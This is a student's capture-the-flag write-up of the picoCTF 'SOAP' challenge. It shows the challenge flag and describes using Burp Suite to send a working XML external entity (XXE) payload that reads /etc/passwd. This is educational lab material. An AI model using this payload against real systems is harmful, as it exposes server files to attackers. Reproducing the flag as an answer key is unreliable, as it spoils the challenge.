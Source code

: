 # SOAP

*Flag:* picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}

How you approached the challenge:

- step 1: I didnt understand anything from the hint so i went to the first link provided in the reference provided in web exploitation section and from that i understood how to apply XML external entity Injection. I first intercepted the website using burpsuite and then clicked on details and sent that to repeater there already one xml was already there i just changed it to 
```
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

  <data>
<ID>&xxe;
</ID></data>
```
- step 2: And ye when i clicked on send and when i scrolled the response i got the flag there.
![image](https://github.com/user-attachments/assets/31d2b815-1940-4e3a-a1fe-bb0fe42a373a)

What you learned through solving this challenge:

1. Revised intercepting website using burpsuite
2. learnt to apply XML external entity Injection

Other incorrect methods you tried:

- again i might sound repetitive when i hadnt clicked on hint i was was searching flag in js files using inspect inspect element 

References

- https://www.youtube.com/watch?v=iGDJ695dUEM
